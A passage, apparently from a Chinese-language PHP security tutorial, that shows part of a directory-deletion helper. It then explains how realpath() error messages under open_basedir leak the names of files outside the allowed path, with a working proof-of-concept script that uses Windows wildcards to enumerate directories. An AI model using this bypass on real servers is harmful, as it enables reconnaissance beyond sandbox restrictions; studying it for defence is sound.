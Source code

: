 ```php
            if(($file!='.') && ($file!='..')){delfile($name);}
        } 
        @closedir($mydir);
        @chmod($deldir,0777);
        return @rmdir($deldir) ? true : false;
    }
}

function File_Str($string)
{
    return str_replace('//','/',str_replace('\\','/',$string));
}

function getRandStr($length = 6) {
    $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
    $randStr = '';
    for ($i = 0; $i < $length; $i++) {
        $randStr .= substr($chars, mt_rand(0, strlen($chars) - 1), 1);
    }
    return $randStr;
}
```

# realpath 列举目录

**Realpath**函数是 php 中将一个路径规范化成为绝对路径的方法，它可以去掉多余的../或./等跳转字符，能将相对路径转换成绝对路径。  
but，在开启了 open\_basedir 以后，这个函数有个特点：当我们传入的路径是一个不存在的文件（目录）时，它将返回 false；当我们传入一个不在 open\_basedir 里的文件（目录）时，他将抛出错误（File is not within the allowed path(s)）。  
所以就是利用这个特性进行猜解，考虑到效率问题，所以利用了 Windows 下的通配符

```php
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir')); //打印了当前 open 限制的目录
set_error_handler('isexists');
$dir = 'd:/test/';
$file = '';
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_';
for ($i=0; $i < strlen($chars); $i++) { 
    $file = $dir . $chars[$i] . '<><';
    realpath($file);
}
function isexists($errno, $errstr)
{
    $regexp = '/File\((.*)\) is not within/';
    preg_match($regexp, $errstr, $matches);
    if (isset($matches[1])) {
        printf("%s <br/>", $matches[1]);
    }
}
?>
```
